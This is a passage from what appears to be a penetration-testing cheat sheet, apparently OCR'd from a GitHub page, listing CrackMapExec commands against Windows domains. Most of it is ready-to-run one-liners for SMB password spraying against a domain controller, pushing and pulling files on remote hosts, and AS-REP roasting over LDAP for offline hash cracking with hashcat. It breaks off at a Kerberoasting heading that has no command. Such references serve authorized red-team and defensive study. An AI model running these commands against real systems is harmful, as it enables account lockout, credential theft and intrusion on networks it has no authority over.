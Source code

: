 ```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --no-bruteforce --continue-on-success
```

## CME - Password Spray (Multiple Tests) (SMB)
Performs a password spray attack with multiple password attempts per user (careful on lockout).
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/BRUTEFORCE-SPRAY #tag/warning

```bash
cme smb <dc-ip> -u <user.txt> -p <password.txt> --continue-on-success
```

## CME - Put File (SMB)
Sends a local file to the remote target.
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 

```bash
cme smb <ip> -u <user> -p <password> --put-file <local_file> <remote_path|\\Windows\\Temp\\target.txt>
```


## CME - Get File (SMB)
Retrieves a file from the remote target.
#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/FILE_TRANSFERT 

```bash
cme smb <ip> -u <user> -p <password> --get-file <remote_path|\Windows\Temp\target.txt> <local_file>
```


## CME - AS-REP Roasting (LDAP, No Auth)
Performs AS-REP Roasting against an LDAP server without authentication.
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 

User can be a wordlist too (user.txt)
Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## CME - AS-REP Roasting (LDAP, With Auth)
Performs AS-REP Roasting against an LDAP server with authentication.
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON  

Hashcat format  -m 18200 

```bash
cme ldap <ip> -u <user> -p '<password>' --asreproast ASREProastables.txt --kdcHost <dc_ip>
```

## CME - Kerberoasting (LDAP)
Performs Kerberoasting against an LDAP server.
#plateform/linux #target/remote #port/389 #port/639 #protocol/ldap #cat/RECON 
